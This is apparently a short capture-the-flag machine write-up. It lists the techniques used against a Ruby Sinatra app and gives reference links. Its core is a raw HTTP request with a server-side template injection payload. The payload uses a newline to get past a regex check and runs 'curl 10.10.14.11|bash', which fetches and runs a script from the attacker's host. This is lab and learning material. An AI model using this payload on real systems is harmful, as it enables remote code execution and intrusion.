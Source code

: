 ## What I've used in this machine

- Mash attack with hashcat
- Code injection in Ruby
- Use of `strings` to find strings in a database
- Server-Side Template Injection (SSTI)

## Versions

Ruby 3.0.2
WEBrick/1.7.0
Sinatra

## Info

Request in burp suite:

```
POST /weighted-grade-calc HTTP/1.1
Host: 10.10.11.253
Content-Length: 225
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.10.11.253
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.160 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.11.253/weighted-grade
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: close

category1=Test%0a%0d%0a%0d;'<%25=+`curl+10.10.14.11|bash`+%25>&grade1=100&weight1=100&category2=N%2FA&grade2=0&weight2=0&category3=N%2FA&grade3=0&weight3=0&category4=N%2FA&grade4=0&weight4=0&category5=N%2FA&grade5=0&weight5=0
```

## Links

- https://davidhamann.de/2022/05/14/bypassing-regular-expression-checks/
- https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection
- https://nmap.org/nsedoc/scripts/ssh-brute.html
- https://www.stackhawk.com/blog/command-injection-ruby/
- https://hashcat.net/wiki/doku.php?id=mask_attack